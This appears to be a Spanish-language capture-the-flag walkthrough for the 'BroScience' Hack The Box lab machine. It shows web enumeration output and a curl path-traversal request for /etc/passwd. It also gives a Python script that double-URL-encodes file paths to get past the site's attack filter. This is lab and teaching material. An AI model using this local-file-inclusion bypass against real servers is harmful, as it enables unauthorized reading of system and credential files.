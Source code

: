 ```
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| tls-alpn: 
|_  http/1.1
```

Fuzzeamos con **Wfuzz** 

```
❯ wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://broscience.htb/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================

000000014:   200        146 L    510 W      9308 Ch     "https://broscience.htb/"
000000016:   301        9 L      28 W       319 Ch      "images"                 
000000638:   301        9 L      28 W       321 Ch      "includes"               
000000730:   301        9 L      28 W       319 Ch      "manual"                 
000001073:   301        9 L      28 W       323 Ch      "javascript"             
000001717:   301        9 L      28 W       319 Ch      "styles"
```
Vemos un "/includes" y dentro un "img.php", y cuando entramos vemos que nos dice **Error: Missing 'path' parameter.** Es decir, hay un parámetro "path", lo usamos a ver qué 

```
❯ curl -k 'https://broscience.htb/includes/img.php?path=../../../../../etc/passwd'
<b>Error:</b> Attack detected.
```

Vemos que detecta un ataque si intentamos un LFI, pero se puede bypassear con doble urlencode, para ello me haré un script de python

```python
#!/usr/bin/python3

import urllib.parse, os, pdb

injection = input("Qué archivo quieres visualizar? ")

injection = urllib.parse.quote_plus(injection)

injection = urllib.parse.quote_plus(injection) 

command = "curl -k 'https://broscience.htb/includes/img.php?path=" + injection + "'"



execute = os.system(command)

print(execute)
```
Ahora para visualizar un fichero simplemente lo introducimos
